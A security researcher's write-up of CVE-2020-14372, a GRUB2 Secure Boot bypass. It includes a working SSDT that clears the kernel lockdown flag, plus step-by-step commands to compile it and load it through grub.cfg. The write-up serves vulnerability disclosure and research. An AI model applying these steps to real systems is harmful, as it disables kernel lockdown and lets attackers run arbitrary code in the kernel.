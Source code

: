 <!--GEN_META
GEN_TITLE=CVE-2020-14372: Secure Boot bypass using GRUB2
GEN_DESCRIPTION=Bypassing (not so) Secure Boot with one "simple trick"
GEN_KEYWORDS=CVE-2020-14372,writeup,POC, GRUB2,UEFI,SecureBoot
GEN_AUTHOR=Máté Kukri
GEN_TIMESTAMP=2021-05-22 17:11
GEN_COPYRIGHT=Copyright (C) Máté Kukri, 2021
-->

## Vulnerability details

One day I typed "help" into GRUB2's console and saw some really "fun"
commands:

* read_byte ADDR:      Read 8-bit value from ADDR
* write_byte ADDR VAL: Write 8-bit value VAL to ADDR

I immediately thought I found the most fun Secure Boot bypass, but these
commands output the following under Secure Boot:
```
error: Secure Boot forbids loading module .../memrw.mod.
```

Out of curiosity, booted this way I typed the "acpi" command, and it printed
a usage message telling me to point it to an AML file. It's well-known that
another name for ACPI is a "mechanism to run arbitrary vendor provided code
in the context of your kernel", since we can load ACPI tables with Secure Boot
enabled, we are the "vendor" who can provide that code.

But since there is a one-byte flag (kernel_locked_down) in the data segment of
the booted kernel telling it whether or not its "locked down", we can just
overwrite that flag using an SSDT and let the kernel load arbitrary modules.

The following SSDT accomplishes this by creating a "battery" object called `HACK`,
and doing the write in said object's `_INI` method which is always executed by
the kernel:
```
DefinitionBlock ("trigger.aml", "SSDT", 2, "", "", 0x00001001)
{
  OperationRegion (KMEM, SystemMemory, ADDRESS_GOES_HERE, 4)
  Field (KMEM, DWordAcc, NoLock, WriteAsZeros)
  {
    LKDN, 32
  }
  Device (\_SB_.HACK)
  {
    Name(_HID, EisaId ("PNP0C0A"))
    Name(_UID, 0x02)
    Method(_INI)
    {
      If (LKDN)
      {
        LKDN = Zero
      }
    }
  }
}
```

I wrote a proof of concept exploit in Python that helps with generating this SSDT,
but exploting this by hand is not that difficult either. The rough outline is as
follows:

* Disable KASLR by adding `nokaslr` to the kernel command line
* Find the **physical** address of the `kernel_locked_down` symbol after booting
   without KASLR
* Insert the address into the SSDT above, than compile that SSDT using `iasl`
* Finally instruct GRUB2 to load the SSDT

## How to use the PoC

Proof of concept exploit hosted on <a href="https://github.com/kukrimate/CVE-2020-14372">GitHub</a>.

Assumptions:

* The attacker has `root` access to the running operating system
* Linux is booted under UEFI Secure Boot with GRUB2 version <=2.02
  (some builds of 2.02 are patched), this will cause kernel lockdown to be enabled

When the above assumptions are met, edit `/etc/default/grub`, add `nokaslr`
to `GRUB_CMDLINE_LINUX_DEFAULT`, run `update-grub`, and then finally reboot.

After the kernel is booted without address space layout randomization, the
`genssdt.py` script can be used to generate a "malicious" SSDT that will patch
the kernel's memory at runtime to disable lockdown:

```
python3 genssdt.py > trigger.dsl
iasl trigger.dsl
cp trigger.aml /boot/efi/evil_ssdt.aml
```

Now that the SSDT was created, the GRUB configuration file
(usually at `/boot/grub/grub.cfg`) must be edited to make GRUB load this SSDT
(adding this to the top of this file):

```
acpi (hd0,gpt1)/evil_ssdt.aml
```

Based on where the EFI system partition (where we placed the SSDT above) resides
on disk, `(hd0,gpt1)` might need to be replaced with something else.

Finally after a reboot, kernel lockdown should be disabled, giving `root` the
ability to execute arbitrary code in the kernel.
